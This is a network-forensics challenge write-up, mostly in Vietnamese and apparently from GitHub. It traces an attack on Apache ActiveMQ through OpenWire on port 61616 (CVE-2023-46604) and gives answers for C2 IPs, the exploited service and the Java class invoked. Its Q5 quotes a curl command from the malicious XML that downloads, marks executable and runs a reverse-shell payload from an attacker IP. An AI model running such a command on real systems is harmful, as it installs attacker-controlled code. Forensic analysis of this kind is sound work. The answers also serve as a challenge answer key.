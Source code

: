 <h1>Q1:</h1>
<h2>Problem</h2>
By identifying the C2 IP, we can block traffic to and from this IP, helping to contain the breach and prevent further data exfiltration or command execution. Can you provide the IP of the C2 server that communicated with our server?
<h2>Solution
</h2>

Trước tiên mình sẽ check conversation giữa các sever 
![image](https://github.com/user-attachments/assets/ebb60552-2c92-4a0c-bd84-046dd7dfa39d)
Nhìn vào đó thì mình thấy được 3 IP khác kết nối tới địa chỉ sever của mình(134.209.197.3). Nhưng trong đó có 4867 packets đã được gửi giữa sever mình với sever IP 146.190.21.92
=> Ans: 146.190.21.92

<h1>Q2:</h1>
<h2>Problem</h2>
Initial entry points are critical to trace back the attack vector. What is the port number of the service the adversary exploited?

<h2>Solution</h2>
Khi nhìn vào packet thứ 4 và 5, mình thấy attacker sử dụng protocol OpenWire để tấn công sever(sau khi research thì mình biết được rằng OpenWire được xây dựng dựa trên nền tảng TCP và sử dụng TCP làm phương tiện truyền tải dữ liệu), sau đó mình vào các packet để check src port

![image](https://github.com/user-attachments/assets/bb104fa6-117f-40f7-a999-4632672b1e93)

=> Ans: 61616
<h1>Q3:</h1>
<h2>Problem</h2>
Following up on the previous question, what is the name of the service found to be vulnerable?

<h2>Solution</h2>
Mình search google xem giao thức OpenWire được dùng cho service nào và tìm được câu trả lời

![Screenshot 2024-08-22 224745](https://github.com/user-attachments/assets/21a77267-2cd8-453f-9048-73672ee48c20)

=> Ans: Apache ActiveMQ
<h1>Q4:</h1>
<h2>Problem</h2>
The attacker's infrastructure often involves multiple components. What is the IP of the second C2 server?

<h2>Solution</h2>
Sau khi nhìn vào phần Conversation, sever của mình còn kết nối với 2 sever khác nữa(128.199.52.72 và 84.239.49.16) nên mình filter từng IP một
<pre>ip.addr==134.209.197.3 && ip.addr==128.199.52.72</pre>

![image](https://github.com/user-attachments/assets/0bcff04d-3446-493d-a36c-4bfccf00d270)

Sau quá trình bắt tay ba bước, mình thấy sever của mình đang gửi một request GET để lấy tài nguyên nên mình follow TCP stream ở packet 34

![image](https://github.com/user-attachments/assets/c2223b7b-809b-4ae0-845f-e8ae8b8f02cc)

 Mình thấy được nội dung trả về là một tệp ELF(định dạng tệp thực thi chuẩn trên các hệ điều hành Linux, Unix), nên mình biết được đây chính là C2 sever
 => Ans: 128.199.52.72
<h1>Q5:</h1>
<h2>Problem</h2>
Attackers usually leave traces on the disk. What is the name of the reverse shell executable dropped on the server?

<h2>Solution</h2>
Khi đọc đến packet 11, mình thấy info của packet là 

_**GET /invoice.xml HTTP/1.1**_
![image](https://github.com/user-attachments/assets/6c94cd22-508f-494c-b3cd-343eb318dced)
Đây là một yêu cầu HTTP GET để lấy file invoice.xml từ máy chủ, nên mình check bằng cách follow TCP Stream và bắt được nội dung của file XML
![image](https://github.com/user-attachments/assets/f8fef9f5-e9d5-4954-b682-6936ff5fa5df)

Sau khi đọc và phân tích nội dung file thì mình kết luận được là trong tệp XML chứa mã độc, trong file đó chứa câu lệnh sau

<pre> curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker </pre>

Câu lệnh trên sẽ tải một tệp từ địa chỉ http://128.199.52.72/docker, sau đó cung cấp quyền thực thi cho tệp docker đó

=> Ans: docker
<h1>Q6:</h1>
<h2>Problem</h2>
What Java class was invoked by the XML file to run the exploit?
<h2>Solution</h2>
Sau khi đọc nội dung của file XML thì mình thấy được class được dùng là "java.lang.ProcessBuilder" 
Đây là một lớp trong Java dùng để tạo và quản lý các process mới. Trong trường hợp này, file XML sử dụng ProcessBuilder để thực thi các lệnh bash trên hệ thống.
=> Ans: java.lang.ProcessBuilder
<h1>Q7:</h1>
<h2>Problem</h2>
To better understand the specific security flaw exploited, can you identify the CVE identifier associated with this vulnerability?
<h2>Solution</h2>
Để tìm được CVE ID thì mình search google với từ khóa " OpenWire CVE là có kết quả

![image](https://github.com/user-attachments/assets/60739179-7872-4ea3-a834-a99fda95ac6a)

=> Ans: CVE-2023-46604

<h1>Q8:</h1>

